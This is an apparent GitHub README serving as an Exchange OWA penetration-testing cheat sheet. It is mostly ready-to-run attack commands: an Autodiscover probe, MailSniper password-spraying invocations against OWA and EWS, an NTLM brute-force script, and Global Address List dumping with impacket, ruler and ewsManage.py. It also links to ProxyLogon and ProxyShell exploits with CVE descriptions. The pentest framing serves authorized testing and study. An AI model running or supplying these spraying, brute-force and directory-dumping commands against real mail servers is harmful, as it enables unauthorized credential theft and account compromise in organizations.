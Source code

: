 # Exchange OWA Penetration Test

## 1. Recon
### Autodiscover
```
POST /autodiscover/autodiscover.xml HTTP/1.1
Host: mail.domain.tld
User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Outlook 16.0.10730; Pro)
Authorization: Basic base64(domain\user:password)
Content-Length: 341
Content-Type: text/xml

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>myemail@domain.com</EMailAddress>
      <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```
<br>&nbsp;

### Version
```
python3 get-exchange-version.py https://mail.domain.tld
```
<br>&nbsp;<br>&nbsp;

## 2. Password Spray
* PasswordSprayOWA : will attempt to connect to an OWA portal and perform a password spraying attack using a userlist and a single password.
* PasswordSprayEWS :  will attempt to connect to an EWS portal and perform a password spraying attack using a userlist and a single password.

### use MailSniper enum
```powershell
Import-Module MailSniper.ps1
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
```
<br>&nbsp;

### python NTLM password Sparay
```python
python3 bruteforce/bruteforce.py -t https://mail.domain.com/EWS/Exchange.asmx -U users.txt -p TestPassword
```
<br>&nbsp;<br>&nbsp;

## 3. GAL 
The Microsoft Exchange Global Address List (GAL) is a list of all end users and their respective email addresses within an Exchange Server organization that uses Microsoft Outlook for email.

### use exchanger.py [impacket](https://github.com/SecureAuthCorp/impacket)
```python
python GAL/exchanger.py DomainName/Username:"Password"@mail.domain.com nspi list-tables
```
<br>&nbsp;

### use ruler 
```
GAL/ruler-linux64 --url https://mail.domain.com/autodiscover/autodiscover.xml --email Username@domain.com -d DomainName -u Username -p Password --debug --verbose  abk dump --output gal.txt 
```
<br>&nbsp;

### use ewsManage.py
```python
python3 GAL/ewsManage.py mail.domain.com 443 plaintext DomainName Username Password findallpeopl
```

* for export GAL we should enum valid username,password and email first !
<br>&nbsp;<br>&nbsp;

## 4. [ProxyLogon](https://github.com/kh4sh3i/ProxyLogon)
ProxyLogon is the formally generic name for CVE-2021-26855, a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the authentication and impersonating as the admin. We have also chained this bug with another post-auth arbitrary-file-write vulnerability, CVE-2021-27065, to get code execution.
<br>&nbsp;<br>&nbsp;

## 5. [ProxyShell](https://github.com/kh4sh3i/ProxyShell)
CVE-2021-34473 Microsoft Exchange Server Remote Code Execution Vulnerability. This faulty URL normalization lets us access an arbitrary backend URL while running as the Exchange Server machine account. Although this bug is not as powerful as the SSRF in ProxyLogon, and we could manipulate only the path part of the URL

<br>&nbsp;<br>&nbsp;
## Credit
Based on [proxylogon orange](https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html)<br>
Based on [proxylogon orange 2](https://blog.orange.tw/2021/08/proxyoracle-a-new-attack-surface-on-ms-exchange-part-2.html)<br>
Based on [python2](https://www.how2shout.com/linux/how-to-install-python-2-7-on-ubuntu-20-04-lts/)<br>
Based on [proxylogon](https://proxylogon.com/)<br>
Based on [kh4sh3i](https://github.com/kh4sh3i/exchange-penetration-testing/blob/main/README.md)'s github page.
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
